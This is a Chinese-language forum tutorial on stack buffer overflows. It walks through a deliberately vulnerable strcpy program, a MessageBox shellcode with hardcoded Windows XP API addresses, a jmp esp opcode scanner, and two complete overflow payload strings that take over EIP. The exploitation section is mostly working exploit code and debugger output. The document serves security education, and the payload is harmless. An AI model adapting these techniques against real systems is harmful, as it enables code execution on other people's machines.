# 缓冲区溢出初探

> 原文：[`www.pediy.com/kssd/pediy10/85449.html`](https://www.pediy.com/kssd/pediy10/85449.html)

缓冲区溢出初探  
作者：sysdog  
前言：之前跟老师做项目，涉及到对协议漏洞分析，特地学习了下缓冲区溢出漏洞，也就整理出了这篇文章，全当是对漏洞的一点小科普知识吧！由于个人理解原因，文章难免出现不足之处，欢迎大家指正。  
（一）缓冲区理论学习  
PE 文件（进程）装入内存：  
PE 文件（进程）在内存中按照功能大致划分 4 个部分  
（1）  
代码区（程序段） .text 主要存储被装入执行的二进制代码，ALU 会到这个取指令并执行，这个段通常是只读，对它的写操作是非法的  
（2）  
数据区 .data 主要是存储的全局变量，主要存储静态数据  
（3）  
堆区 程序在堆区可以动态的请求分配一定大小的内存，并在用完后归还给堆区，动态分配和回收是堆区的主要特点，主要存储动态数据  
（4）  
栈区 用于动态的存储函数之间的调用关系，以保证被调用函数在返回时恢复到母函数中继续执行  
缓冲区：缓冲区是程序运行时内存中的一个连续的块，随着程序动态分配变量而出现，用来保存数据。  
缓冲区溢出：缓冲区溢出也就是堆栈溢出。C 语言不检查缓冲区的边界，在某些情况下，如果用户输入的数据长度超过应用程序给定的缓冲区，就会覆盖其他数据区。一个程序在内存中通常分为程序段，数据端和堆栈三部分。程序段里放着程序的机器码和只读数据，这个段通常是只读，对它的写操作是非法的。数据段放的是程序中的静态数据。动态数据则通过堆栈来存放。缓冲区溢出是利用堆栈段的溢出的。一般情况下，覆盖其他数据区的数据是没有意义的，最多造成应用程序错误。但是如果是黑客精心构造的数据，用来覆盖堆栈来让程序执行黑客的攻击代码。  
堆栈：程序动态分配的一定大小的内存，主要用于传递参数及函数调用和递归，是一种先进后出的数据结构，栈的操作主要有 2 种：PUSH（压栈）POP（出栈），栈的主要属性有 2 个：TOP（栈顶）BASE（栈底），堆栈满足平衡原理  
函数栈帧和指令寄存器：函数在需要调用时，堆栈就会为这个函数开辟一个新的栈帧，并压入堆栈，这个空间被这个函数独占，当函数调用完成返回，堆栈会弹出函数对应的栈帧，同是释放空间。函数栈帧一般包含下面几个重要信息：  
（1）  
局部变量：函数局部变量开辟的内存空间  
（2）  
栈帧状态值：保存前栈帧的顶部和底部（实际只保存前栈帧的底部，前栈帧的顶部根据堆栈平衡原理可以计算得到），用于在本帧完成调用后恢复前栈帧  
（3）  
函数返回地址：保存当前函数调用前的“断点”信息，也就是函数调用前的指令位置，以便在函数返回时恢复函数调用前的代码区继续执行执行  
Win32 平台提供 2 个特殊的寄存器用来标识系统顶端的栈帧  
（1）  
ESP：栈指针寄存器，里面存放着一个指针，指针永远指向程序正在运行的函数的栈帧的栈顶  
（2）  
EBP：基址指针寄存器，里面放着一个指针，指针永远指向程序正在运行的函数的栈帧的底部  
EIP：指令寄存器，里面放着一个指针，指针永远指向下一条要执行的指令地址，CPU 按照 EIP 寄存器所指位置取出指令和操作数，送入 ALU（运算器）处理。可以说控制了 EIP 寄存器的内容就控制了应用程序，EIP 指向那里,CPU 就去那里执行指令，缓冲区溢出也就是精心构造数据来覆盖 EIP 寄存器的内容，使之执行我们的攻击代码  
函数调用：  
不同的操作系统，不同的语言，不同的编译器在参数传递方式，参数入栈顺序及函数返回是恢复堆栈平衡的操作在子函数还是母函数进行都有所不同。  
  
Test1.cpp 代码如下：  
#include <stdio.h>  
int function(int a,int b)  
{ int c;  
c=a+b;  
return c;  
}  
int main()  
{ int d;  
d=function(1,2)+5;  
printf("%d\\n",d);  
}  
当调用 function 函数时，对应汇编指令(利用 OD 单步跟踪了下)：  
Push 2  
Push 1 //参数是从右向左依次压入堆栈  
Call test1.00401005 //00401005 位置指向 function 函数的所在地址，CALL 指令同时完成 2 项操作 （1）向栈中压入当前指令在内存中的位置，即函数的返回地址 (2)跳转到函数如后地址  
Push ebp //保存前栈帧的底部  
Push ebp, esp //设置新栈帧底部  
Sub esp, XXX //设置新栈帧顶部（抬高栈顶，为新栈帧开辟空间）  
（二）本地分析漏洞成因  
测试环境：windows SP2 VC++6.0 OD  
缓冲区漏洞产生原因：Strcpy 函数复制字符串未检查长度造成栈溢出  
Test2.cpp 代码如下：  
#include "stdafx.h"  
#include <stdio.h>  
#include <string.h>  
char name\[\]="kookfish";//字符串以'\\0'结尾，长度应是 9 kookfish 对应的十六进制：6B 6F 6F 6B 66 69 73 68  
int main()  
{  
char buffer\[8\];//定义长度为 8 的缓冲区  
strcpy(buffer,name);  
for(int i=0;i<9&&buffer\[i\];i++)//加上 buffer\[i\]就过滤掉了'\\0'  
printf("\\\\0x%x",buffer\[i\]);//输出字符的十六进制  
return 0;  
}  
程序正常运行，堆栈数据如下图  
  
name\[\]=”kookfishkookfish” 2 个 kookfish,程序无法运行，出错了。如下图：  
  
0x68736966 指令引用的“0x68736966”内存，改内存不能为”read”,66697368 刚好是 fish 的十六进制  
正常时堆栈情况:  
  
出错时堆栈情况：  
  
第二个 fish 覆盖了 EIP 指针，更改第二个 fisn 内容给 abcd，十六进制为 0x61626364,验证下，程序出错信息如下图：  
  
0x64636261 指令引用的“0x64636261”内存，该内存不能为“read”,跟预测一样  
根据这可以确定第三个 kook 就是覆盖掉了 EIP 指针。  
堆栈中的情况如下:  
  
覆盖后是这个  
  
Retn 地址 0012ff84 返回到 00401339  
Ebp 0012ff80 保存的 main 函数的 ESP  
Buffer\[0-3\] 0012ff78---0012ff7f 开辟了 8 个字节的缓冲区  
思路整理：1.已经得到了淹没地址 0012ff84  
2.问题是如何定位 shellcode 的地址，如果定位出 shellcode 入口地址，我们可以引导 retn 返回到 shelcode 入口地址执行我们的 shellcode 代码  
（三）漏洞利用测试  
程序确实存在缓冲区溢出漏洞，下面就学习书写 shellcode 加以利用，同时证明确实存在可以被利用的缓冲区溢出漏洞，shellcode 很深奥，涉及很多方面的知识，在这里我所写的 shellcode 的功能就是弹出一个消息框。（实际是想弹出个 DOS 窗口，但是不知道为什么一直不行，就改为测试弹出消息框了）  
Shellcode.cpp 代码如下：  
#include "stdafx.h"  
#include <windows.h>  
int main()  
{  
LoadLibrary(“user32.dll”);  
\_asm{  
sub sp,0x440  
xor ebx,ebx  
push ebx  
push 0x66697368  
push 0x6B6F6F6B  
move ax,esp  
push ebx  
push eax  
push eax  
push ebx  
mov eax,0x77D507EA //MessageBox 入口地址，可以利用 dependency walker 获得，user32.dll 导出函数  
call eax  
push ebx  
mov eax, 0x7C81CAFA //exit 入口地址 ，同样利用 dependency walker 获得，kernel32.dll 导出函数  
call eax  
}  
return 0;  
}  
上面 2 个入口地址可以利用 OD 加载程序获得  
转换为机器码  
00401041 33DB xor ebx,ebx  
00401043 53 push ebx  
00401044 68 66697368 push 66697368  
00401049 68 6B6F6F6B push 6B6F6F6B  
0040104E 8BC4 mov eax,esp  
00401050 53 push ebx  
00401051 50 push eax  
00401052 50 push eax  
00401053 53 push ebx  
00401054 B8 EA07D577 mov eax,user32.MessageBoxA  
00401059 FFD0 call eax  
0040105B 53 push ebx  
0040105C B8 FACA817C mov eax,kernel32.ExitProcess  
00401061 FFD0 call eax  
Shellcode 代码已经有了，下面就是如何利用淹没 retn 地址，执行 shellcode  
有 2 种简单的做法  
1.  
把 shellcode 写在申请的缓冲区的开始地址，retn 返回到缓冲区入口地址  
2.  
利用跳转 jmp esp(具体实现原理还很迷糊)  
获得 jmp esp 的入口地址可以用下面代码实现  
暴力搜索内存法：  
0xFFE4 是 jmp esp 的机器码，此段程序就是从 user32.dll  
在内存中搜索 0xFFE4 找到就返回其在内存中的指针地址  
#include "stdafx.h"  
#include <stdio.h>  
#include <stdlib.h>  
#include <windows.h>  
#define DLL\_NAME "user32.dll"  
int main()  
{  
BYTE \*ptr;  
int position,address;  
HINSTANCE handle;  
BOOL done\_flag = FALSE;  
handle=LoadLibrary(DLL\_NAME);  
if(!handle)  
{  
printf(" load dll erro !");  
exit(0);  
}  
ptr = (BYTE\*)handle;  
for(position = 0; !done\_flag; position++)  
{  
try  
{  
if(ptr\[position\] == 0xFF && ptr\[position+1\] == 0xE4)  
{  
//0xFFE4 是 jmp esp 的机器码，此段程序就是从 user32.dll  
//在内存中搜索 0xFFE4 找到就返回其在内存中的指针地址  
int address = (int)ptr + position;  
printf("OPCODE found at 0x%x\\n",address);  
}  
}  
catch(...)  
{  
int address = (int)ptr + position;  
printf("END OF 0x%x\\n", address);  
done\_flag = true;  
}  
}  
return 0;  
}  
最后获得 jmp esp 的地址如下(本机测试，但是有某几个固定值)：  
  
构造 shellcode 如下：  
Char name\[\]=  
“\\x6B\\x6F\\x6F\\x6B” //buffer\[0-3\]  
“\\x68\\x73\\x69\\x66” //buffer\[4-7\]  
“\\x6B\\x6F\\x6F\\x6B” //EBP  
“\\x7F\\x6A\\xD8\\x77” //覆盖成 jmp esp 选取 0x77d86a7f  
“\\x33\\xDB\\x53\\x68\\x66\\x69\\x73\\x68\\x68\\x6B\\x6F\\x6F\\x6B\\x8B\\xC4\\x53\\x50” //弹消息框代码  
“\\x50\\x53\\xB8\\xEA\\x07\\xD5\\x77\\xFF\\xD0\\x53\\xB8\\xFA\\xCA\\x81\\x7C\\xFF\\xD0”  
第二种方法测试代码：  
#include "stdafx.h"  
#include <stdio.h>  
#include <string.h>  
char name\[\]=  
"\\x6B\\x6F\\x6F\\x6B" //buffer\[0-3\]  
"\\x68\\x73\\x69\\x66" //buffer\[4-7\]  
"\\x6B\\x6F\\x6F\\x6B" //EBP  
"\\x7F\\x6A\\xD8\\x77" //覆盖成 jmp esp 选取 0x77d86a7f  
"\\x33\\xDB\\x53\\x68\\x66\\x69\\x73\\x68\\x68\\x6B\\x6F\\x6F\\x6B\\x8B\\xC4\\x53\\x50" //弹消息框代码  
"\\x50\\x53\\xB8\\xEA\\x07\\xD5\\x77\\xFF\\xD0\\x53\\xB8\\xFA\\xCA\\x81\\x7C\\xFF\\xD0"；  
int main()  
{  
char buffer\[8\];//定义长度为 8 的缓冲区  
LoadLibrary("user32.dll");  
strcpy(buffer,name);  
for(int i=0;i<9&&buffer\[i\];i++)//加上 buffer\[i\]就过滤掉了'\\0'  
printf("\\\\0x%x",buffer\[i\]);//输出字符的十六进制  
return 0;  
}  
用 OD 调试堆栈数据如下：  
  
  
  
最终结果是正确的，如图：  
  
第一种方法测试代码：  
#include "stdafx.h"  
#include <stdio.h>  
#include <string.h>  
char name\[\]=  
"\\x90\\x90\\x33\\xDB\\x53\\x68\\x66\\x69\\x73\\x68\\x68\\x6B\\x6F\\x6F\\x6B\\x8B\\xC4\\x53\\x50" //弹消息框代码  
"\\x50\\x53\\xB8\\xEA\\x07\\xD5\\x77\\xFF\\xD0\\x53\\xB8\\xFA\\xCA\\x81\\x7C\\xFF\\xD0"  
"\\x6B\\x6F\\x6F\\x6B"  
"\\x68\\x73\\x69\\x66"  
"\\x6B\\x6F\\x6F\\x6B" //EBP  
"\\x54\\xFF\\x12\\x00"； //覆盖成 buffer\[0\]地址 0012ff54  
int main()  
{  
char buffer\[44\];//定义长度为 44（52-8）的缓冲区  
LoadLibrary("user32.dll");  
strcpy(buffer,name);  
for(int i=0;i<26&&buffer\[i\];i++)//加上 buffer\[i\]就过滤掉了'\\0'  
printf("\\\\0x%x",buffer\[i\]);//输出字符的十六进制  
return 0;  
}  
用 OD 调试堆栈数据如下：  
EIP 已经覆盖成功。retn 后如图：  
  
单步 F8 跟踪，失败，如图：  
  
Call ntdll.7c94a950 调用失败，原因正在分析中……….初步确定是在调用 MessageBox 出错，调用前把 messagebox 四个参数压进去，造成了堆栈的再次缓冲区溢出，覆盖了 messagebox 的地址,解决方法是拓宽堆栈的大小，利用在前面加 pop eax 拓宽堆栈长度，增加 12 个字节长度，结果正确(但是有异常处理不正常的 bug，仍在分析)。  
修改后的代码如下：  
#include "stdafx.h"  
#include <stdio.h>  
#include <string.h>  
#include <windows.h>  
char name\[\]=  
"\\x58\\x58\\x58\\x58\\x58\\x58\\x58\\x58\\x58\\x58\\x58\\x58\\x33\\xDB\\x53\\x68\\x66\\x69\\x73\\x68\\x68\\x6B\\x6F\\x6F\\x6B\\x8B\\xC4\\x53\\x50" //弹消息框代码，增加 12 个 pop eax 增加堆栈长度  
"\\x50\\x53\\xB8\\xEA\\x07\\xD5\\x77\\xFF\\xD0\\x53\\xB8\\xFA\\xCA\\x81\\x7C\\xFF\\xD0\\x90\\x90"  
"\\x6B\\x6F\\x6F\\x6B"  
"\\x68\\x73\\x69\\x66"  
"\\x6B\\x6F\\x6F\\x6B" //EBP  
"\\x48\\xFF\\x12\\x00"; //覆盖成 buffer\[0\]地址 0012ff48  
int main()  
{  
char buffer\[56\];//定义长度为 56（64-8）的缓冲区  
LoadLibrary("user32.dll");  
strcpy(buffer,name);  
for(int i=0;i<26&&buffer\[i\];i++)//加上 buffer\[i\]就过滤掉了'\\0'  
printf("\\\\0x%x",buffer\[i\]);//输出字符的十六进制  
return 0;  
}  
用 OD 观察数据如下:  
  
  
最终结果如下：  
  
(四)总结  
1.看似很简单的小实验，但实践过程还是有很多值得学习的地方，所以奉劝哥们不要眼高手低，学任何东西要脚踏实地，沉的住寂寞………  
2.理论到实践有相当的一段路路需要走，坚持下来才会有收获！  
3.溢出漏洞的发掘和利用大有学问，继续学习 ing  
4.要勇于分析失败原因，不能一遇到问题就问这问那，培养自己解决问题的能力，以后才能混的好  
说明：为了大家可以亲自实践，体会一下缓冲区溢出的小效果，我特地上传文章附件及例子的 src。  
参考资料：  
《0day 安全：软件漏洞分析技术》  failewest        电子工业出版社  
《Q 版黑客系列：缓冲区溢出教程》 王炜、方勇      非安全 NoHack

上传的附件
|  || src.rar  
 |